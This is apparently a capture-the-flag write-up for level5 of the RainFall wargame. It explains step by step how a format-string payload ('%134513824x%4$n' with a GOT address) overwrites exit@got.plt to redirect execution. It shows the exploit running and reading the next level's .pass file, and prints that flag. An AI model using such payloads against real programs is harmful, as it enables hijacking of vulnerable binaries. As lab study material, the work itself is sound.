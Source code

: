 - `134513828` (`0x080484a4`) : address of the `o` function in decimal number, this is the address we want to overwrite the address of `exexit@got.plt`.

- `%134513828x` : it print this big number convert to hexadecimal (format string `%x`) of space before printing what we passed to `printf` (nothing here) (see the [level4](https://github.com/Nimpoo/rainfall/tree/main/level4) for more details).

- `%4$n` : the `%n` format string, the number `4` is the place of the address of the buffer in the stack, here our address of `exit@got.plt`

- `%134513828x%4$n` : the lengh of the string printed here is the **address of the `o` function in decimal convert on hexadecimal with the format strin `x`**. This lengh is write in the 4th argument of `printf`, so the 4th place in the stack : <u>**the address of `exit@got.plt`**</u>

### <u>Conclusion</u> : The address of `exit@got.plt` will be the address of the `o` function. The `exit@plt` redirect to `exit@got.plt`, and we overwrite it by the address of the `o` function.

## __Let's try this chimera__

```sh
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"'; cat) | ./level5
...
[130 MILLION OF SPACE LATER]
...
                                                                                                  200 # A random number is print, I can't explain why
whoami
level6
```

# WAAAAAHOOOOOOOOOOOOOOOOOO

Let's get the flag !

```sh
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31^C
level5@RainFall:~$
```

And go to the next level !

```
level5@RainFall:~$ su level6
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

# level5 complet
